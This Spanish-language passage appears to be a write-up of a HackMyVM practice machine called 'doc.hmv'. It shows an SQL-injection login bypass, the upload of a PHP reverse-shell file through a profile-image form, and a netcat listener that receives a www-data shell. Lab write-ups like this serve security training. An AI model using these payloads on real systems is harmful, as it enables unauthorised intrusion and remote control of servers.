 Nada mas entrar vemos que no carga muy bien, esto se debe a que requiere de un dominio, el cual si le damos al `login` directamente nos pide el dominio llamado `doc.hmv` vamos añadirlo a nuestro archivo `hosts`.

```shell
nnao /etc/hosts

#Dentro del nano
<IP>               doc.hmv
```

Lo guardamos y volvemos a cargar la pagina, pero esta vez desde el dominio.

```
URL = http://doc.hmv/
```

Ahora veremos que si nos carga de forma correcta todo, si nos vamos a `login` probaremos algunas credenciales por defecto, pero veremos que no nos deja, por lo que vamos a probar con un `SQLi` super basico a ver si funciona.

## Escalate user www-data

```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

Veremos que si nos deja, por lo que vamos a explorar el panel en el que hemos entrado a ver que nos encontramos.

Despues de buscar un rato, si nos vamos al apartado de `My Account` veremos una foto de perfil en el que podemos subir una imagen, vamos a probar a subir un `.php` directamente y si lo bloqueara intentamos `Bypassearlo`.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora vamos a darle al boton de subir imagen, seleccionamos el archivo `PHP` y veremos que funciona aparentemente, ahora nos pondremos antes a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora volvemos a la pagina y le damos al boton llamado `update`, echo esto si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.33] 36468
whoami
www-data
```
